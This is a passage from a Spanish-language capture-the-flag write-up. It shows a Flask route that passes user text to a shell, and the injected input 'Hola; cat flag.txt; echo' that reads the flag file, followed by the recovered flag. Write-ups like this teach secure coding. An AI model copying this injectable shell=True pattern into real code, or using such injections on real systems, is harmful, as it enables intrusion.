 Luego de volver a ver el código, notamos que el texto ingresado en ese campo lo leía y ejecutaba en una shell de la siguiente manera:

```
@app.route('/feature', methods=['GET', 'POST'])
def feature():
    token = request.cookies.get('access_token')
    if not token:
        return redirect(url_for('index'))

    try:
        data = serializer.loads(token)
        if data != 'access_granted':
            return redirect(url_for('index'))

        if request.method == 'POST':
            to_process = request.form.get('text')
            try:
                word_count = f"echo {to_process} | wc -w"
                output = subprocess.check_output(
                    word_count, shell=True, text=True)
            except subprocess.CalledProcessError as e:
                output = f"Error: {e}"
            return render_template('feature.html', output=output)

        return render_template('feature.html')
    except Exception as e:
        print(f"Error: {e}")
        return redirect(url_for('index'))
```

Por lo que detectando la vunerabilidad RCE, intentamos vulnerarlo de distintas maneras, hasta que lo conseguimos ingresando el siguiente texto/comando 

```
Hola; cat flag.txt; echo
```
lo cual nos devolvió la flag: CSCTF{d1d_y0u_71m3_7r4v31_f0r_7h15_f146?!}

![](images/result.png)